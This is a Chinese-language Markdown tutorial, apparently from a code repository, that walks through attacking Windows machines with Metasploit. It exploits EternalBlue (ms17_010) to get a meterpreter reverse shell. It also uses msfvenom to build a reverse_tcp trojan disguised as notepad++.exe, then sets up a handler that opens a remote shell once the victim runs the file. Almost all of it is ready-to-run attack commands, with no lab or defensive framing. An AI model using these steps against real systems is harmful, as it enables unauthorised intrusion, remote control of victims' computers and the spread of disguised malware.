






### 1.使用永恒之蓝攻击
#### 1.1 打开metasploit framework控制台
```shell
msfconsole
```
#### 1.2 搜索永恒之蓝漏洞编号,ms17_010是永恒之蓝的编号,也可以搜索EternalBlue
```shell
search ms17_010
```

#### 1.3 使用模块
上图里提示可以通过使用编号或者名称来使用模块。auxiliary是辅助模块，可以先不管
```shell
use 0
# 等价于使用use exploit/windows/smb/ms17_010_eternalblue
```

永恒之蓝需要使用的payload是windows/x64/meterpreter/reverse_tcp，图中提示可以看出，虽然我们没有配置payload，但是系统默认的就是windows/x64/meterpreter/reverse_tcp，如果不是的话，需要修改。
#### 1.4 查看可选配置
```shell
options
# 或者show options
```

其中Required为yes的表示必填项,由图中可看出,我们只需要配置RHOSTS,也就是目标机器的IP。
#### 1.5 配置
如果默认payload不对，需要修改为windows/x64/meterpreter/reverse_tcp
```shell
set payload windows/x64/meterpreter/reverse_tcp
```
配置目标机器IP
```shell
set RHOSTS 127.0.0.1
```
#### 1.6 运行
```shell
run
```
### 2.植入木马攻击
生成木马使用msfvenom
#### 2.1 生成木马
```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=9999 -f exe -x notepad++.exe -o notepad++.exe
```
-p 要使用的模块

lhost 监听机器的ip,一般是本机ip

lport 监听端口

-f 文件格式

-x 要假冒的exe程序,需要为完整的路径,Linux能找到的一个exe文件

-o 输出文件

执行完之后会在当前目录生成一个notepad++.exe。

#### 2.2 木马监听
##### 2.2.1 使用模块
```shell
search exploit/multi/handler
use search exploit/multi/handler
```
#### 2.2.2 查看及配置
```shell
options
```

可以看见图中的payload与上面配置的不一样
```shell
# 这三个配置要和上面生成木马的配置一模一样
set payload windows/meterpreter/reverse_tcp
set lhost 127.0.0.1
set lport 9999
```
#### 2.2.3 启动
```shell
run
```
### 2.3 等待目标执行exe程序
目标机器启动该程序后，

出现meterpreter后就表示控制远程机器成功,上面的永恒之蓝如果入侵成功，同样会出现此提示。

### 3 控制目标机器
在获取到了meterpreter之后，就可以执行shell，进入对方的命令窗口。
```shell
shell
```
